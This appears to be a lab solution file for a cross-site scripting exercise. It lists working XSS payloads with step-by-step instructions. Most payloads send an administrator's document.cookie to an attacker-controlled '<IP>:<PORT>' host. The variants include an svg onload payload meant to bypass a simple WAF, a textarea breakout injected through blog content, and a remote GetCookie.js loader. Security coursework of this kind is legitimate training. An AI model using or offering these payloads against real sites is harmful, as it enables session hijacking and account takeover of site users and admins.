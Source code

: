 # Second Laboratory (XSS) Scripts

### Get Own Cookies On Search:

```html
<script>
    document.write(document.cookie);
</script>
```

- Search above Script

---

### Steal Admin's Cookies On Bug / Feature Report:

```html
<script>
    const HTTP = new XMLHttpRequest();
    const URL = 'http://<IP>:<PORT>/?cookie=' + document.cookie;
    HTTP.open('GET', URL, false);
    HTTP.send();
</script>
```

- Fill `<IP>` & `<PORT>` (Attacker Domain)
- Search above Script
- Copy acquired Link
- Report it

---

### Steal Admin's Cookies On Bug / Feature Report Bypassing Simple WAF:

```html
<svg onload="
    const HTTP = new XMLHttpRequest();
    const URL = 'http://<IP>:<PORT>/?cookie=' + document.cookie;
    HTTP.open('GET', URL, false);
    HTTP.send();
"></svg>
```

- Fill `<IP>` & `<PORT>` (Attacker Domain)
- Search above Script
- Copy acquired Link
- Report it

---

### Steal Admin's Cookies On BlogPosts Review:

```html
</textarea>
    <script>
        const HTTP = new XMLHttpRequest();
        const URL = 'http://<IP>:<PORT>/?cookie=' + document.cookie;
        HTTP.open('GET', URL, false);
        HTTP.send();
    </script>
<textarea>
```

- Fill `<IP>` & `<PORT>` (Attacker Domain)
- Post above Script as Blog Content

---

### Steal Admin's Cookies On BlogPosts Review Using Remote Scripts:

```html
</textarea>
    <script src="http://<IP>:<PORT>/GetCookie.js">
    </script>
<textarea>
```

- Fill `<IP>` & `<PORT>` (*GetCookie.js* Domain)
- Post above Script as Blog Content

#### *GetCookie.js*

```js
const HTTP = new XMLHttpRequest();
const URL = 'http://<IP>:<PORT>/?cookie=' + document.cookie;
HTTP.open('GET', URL, false);
HTTP.send();
```

- Fill `<IP>` & `<PORT>` (Attacker Domain)

---
